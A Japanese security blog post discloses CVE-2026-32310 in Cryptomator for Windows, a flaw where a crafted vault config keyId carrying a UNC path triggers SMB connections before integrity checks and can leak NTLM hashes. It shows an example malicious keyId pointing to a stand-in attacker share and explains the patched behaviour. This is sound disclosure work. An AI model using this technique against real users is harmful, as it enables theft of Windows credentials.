

## TL;DR

- 細工された `vault.cryptomator` を Cryptomator (Windows) で開くだけで、`keyId` に仕込まれた UNC が `Path.resolve` → `Files.exists()` を経由して SMB に出ていき、攻撃者ホストへ NTLM ハッシュが流出しうる。
- 同じ advisory には `Path.startsWith` の正規化忘れによる「vault 外への masterkey バックアップ書き込み」も含めて報告した。
- 共通の根は「外部由来の値を、整合性検証より前に I/O や境界判定に使っている」という順序の問題で、day1 (CVE-2026-32309) と同じ構図。
- `1.19.1` で修正済み

## はじめに

本記事は CVE-2026-32310として公開されており、Cryptomator `1.19.1` より修正が適用されています。

セキュリティ初学者の視点で書いていますので、説明や解釈について不適切な点があればコメント等でご指摘いただけると幸いです。

[CVE-2026-32309](https://zenn.dev/yanchon918s/articles/cryptomator-hub-http-downgrade) を取った話を先に書いていますが、こちらの報告後すぐに見つけたものです。先に読んでいただけると、なぜこの記事の話に繋がったのかが分かりやすいかもしれません。
(前回のは初記事だったのにも関わらず、likeが付いていてびっくりしました。ありがとうございます)

### 用語解説

- **vault**：Cryptomator で暗号化データを保存する領域。フォルダ＋設定ファイル`vault.cryptomator`で構成される。
- **UNC パス**：Windows のネットワーク共有を指すパス表記。`\\server\share\...`の形式。
- **SMB**：Windows のファイル共有プロトコル。`445/tcp`を使う。UNC パスを踏むと SMB 接続が発生する。
- **NTLM**：Windows の認証プロトコル。SMB 接続時に資格情報のハッシュが流れることがある。
- **GHSA**：GitHub Security Advisory のこと。

## いつ見つけたか

- 2026-03-11 12:53 UTC: CVE-2026-32309（Hub の HTTP ダウングレード）を報告
- 2026-03-11 23:32 UTC: CVE-2026-32310（この記事の話）を報告

**1個目を送ったテンションのまま、せっかくだしあと少しだけ読もう、と続けていたら同じ夜にもう1個出てきてしまった**、というのが正直な所です。

「もう1通出していいんだろうか、1件目で動いてもらっている最中なのに別件をぶつけるのは迷惑では」と少し迷ったのですが、別ファイル・別影響の話だったので、独立した報告として送らせてもらいました。

## なぜそのまま読み続けていたか

報告を送った後は「自分でも見つけられる脆弱性があるならば、まだどこかに似たような脆弱性があるかもしれない」と思い、調査を続けてました。

CVE-2026-32309 で見たのは、ざっくり言うと「**vault の中に入っている値を、検証する前にそのまま使っている**」というパターンだったので、これが1箇所だけということは、たぶん無いだろうと推測しました。

今回も、観点は前回と同じく「外部から入ってくる値が、検証されないまま使われる場所」のまま、別の場所を読みに行きました。
(もはや、コードを揉む気分というよりは推理小説を読む気分でした)

## どこから読み始めたか

Hub の方は鍵を**サーバから**取ってくるルートだったので、今度はその逆で**ローカルファイルから**鍵を取ってくるルートを読むことにしました。`MasterkeyFileLoadingStrategy`というクラスがそれにあたります。

開いて少し読んだところで、`VaultConfigCache`のコメントが目に止まりました。

```java
// Returns the vault config without verifying its integrity
```

「整合性検証をしないまま返す」と書いてあります。最初に読んだ時は「もしかして：設計上そうせざるを得ない」のかと思いました（前回も`hub+http`を見たときに「設計者が許容しなければならない」と言って実装している可能性をまず疑ったので、わりと同じ動きでした）。

`loadKey()`の中身を追っていくと、以下の構造でした。

```java
URI keyId = ...; // vault configから
Path filePath = vault.getPath().resolve(keyId.getSchemeSpecificPart());
if (Files.exists(filePath)) {
    // パスフレーズを聞いて鍵をロード
}
```

`keyId` は vault の設定ファイルに含まれる文字列で、vault を配布する側が自由に書ける値です。それを `Files.exists()` に渡しています。

順序を整理すると以下の通りです。



「利用後に検証する」という順序は `CVE-2026-32309` でも全く同じだったので、気になり始めました。

## `Path.resolve` が UNC を踏むのを知らなかった

ここで具体的にどんな値を入れられるかを検証したくなりました。

まずここでは、`keyId.getSchemeSpecificPart()` の結果が `vault.getPath().resolve()` に渡されます。
`Path.resolve(other)` は、`other` が絶対パスに見えるとベース側を捨てる、という動きをします。

```java
Paths.get("C:/vault").resolve("../outside")               // path traversal
Paths.get("C:/vault").resolve("/etc/passwd")              // 絶対パス
Paths.get("C:/vault").resolve("//attacker/share/foo.exe") // UNC
```

知らなかったのは 3 つ目でした。`//attacker/share/...` を渡すと、Windowsの UNC パスとして扱われるそうです。`keyId` に `masterkeyfile://attacker/share/key` と書けば、`filePath` には `\\attacker\share\key` が入ります。

「UNC が入るとして、`Files.exists()` を呼んだら何が起きるか」というのが、次の疑問でした。

## `Files.exists()` が SMB を呼ぶのも知らなかった

ここまで読んでいて「`Files.exists()` はローカルで存在確認するだけなんだから、UNCを踏めても副作用は出ないんじゃないか」と考えていました。

改めて調査をしてみたところ、面白い挙動をしていました。

[Java SE 21 の `Files` API ドキュメント](https://docs.oracle.com/en/java/javase/21/docs/api/java.base/java/nio/file/Files.html#exists(java.nio.file.Path,java.nio.file.LinkOption...)) によると、`Files.exists()` の実体は filesystem provider 経由のメタデータ取得です。Windows の provider はそのまま OS のファイル API に落とすため、UNC を渡すと SMB に出ていきます。その SMB 接続では [Microsoft Learn の Microsoft Negotiate](https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-negotiate) にある通り NTLM が選ばれうるようです。

### 再現環境

「本当にそんなことになるのか」と半信半疑だったので、手元の VM で確かめました。

- OS: Windows 11 Pro 23H2（被害者役） / Ubuntu 22.04（攻撃者役）
- JDK: Cryptomator 同梱の OpenJDK 21
- Cryptomator: `1.19.0`
- 攻撃者ホスト: `tcpdump -i any port 445 -nn` でキャプチャ

`keyId` に UNC を埋め込んだ細工済みの `vault.cryptomator` を Cryptomator に開かせてみました。

コードを追ったときに見えた通り、`Files.exists()` は本来の検証 (`verifySignature`) より先に呼ばれます。そのため**パスフレーズ入力ダイアログが出るより前に**、攻撃者ホストへ `445/tcp` が飛びました。

被害者側には何の UI も出ません。ユーザーがしたことは「vault を開いた」だけです。
「これは脆弱性として報告してもいいかもしれない」と思ったきっかけはこれでした

## 修正されたもの

`1.19.1` で対応された方針は以下の内容でした。

- `masterkeyfile:` の `keyId` で、絶対パス・authority 付き（`//host/...` のように共有先ホストを含む形）・`..` を含む traversal を拒否
- 解決後のパスを正規化し、vault root の下にあることを確認するまで I/O を出さない
- 設定の完全性検証を、外部由来の `keyId` を使う**前**に動かす
- `..` / 絶対パス / UNC のリグレッションテストを追加

リリースノートには `Fixed loading of masterkey file from arbitrary paths` と書かれています（[リリースページ](https://github.com/cryptomator/cryptomator/releases/tag/1.19.1)）。1件目に続いて、こちらも素早く対応していただけてありがたいです。


---

## おわりに

day1 と day2 を通じて、観点を絞ってコードを読んでいくと、同じ根を持つ別のバグが続けて見つかることがある、という体験ができました。今回は `Path.resolve` の取り扱いと `Files.exists()` の SMB 発火という、Java の API 仕様レベルで知らなかった挙動に踏み込めたのが収穫でした。
これからは API ドキュメントの境界条件のあたりをもう少し意識して読もうと思います。

## シリーズ一覧

- day1: [CVE-2026-32309 — Cryptomator Hub の HTTP ダウングレードを取った話](https://zenn.dev/yanchon918s/articles/cryptomator-hub-http-downgrade)
- day2: 本記事（CVE-2026-32310）

## 参考

- [GHSA-5phc-5pfx-hr52](https://github.com/cryptomator/cryptomator/security/advisories/GHSA-5phc-5pfx-hr52)
- [Cryptomator 1.19.1 Release Notes](https://github.com/cryptomator/cryptomator/releases/tag/1.19.1)
- [Java SE 21 `Files` API ドキュメント](https://docs.oracle.com/en/java/javase/21/docs/api/java.base/java/nio/file/Files.html#exists(java.nio.file.Path,java.nio.file.LinkOption...))
- [Microsoft Learn: Microsoft Negotiate](https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-negotiate)
- [CWE-22: Path Traversal](https://cwe.mitre.org/data/definitions/22.html)
- [CWE-73: External Control of File Name or Path](https://cwe.mitre.org/data/definitions/73.html)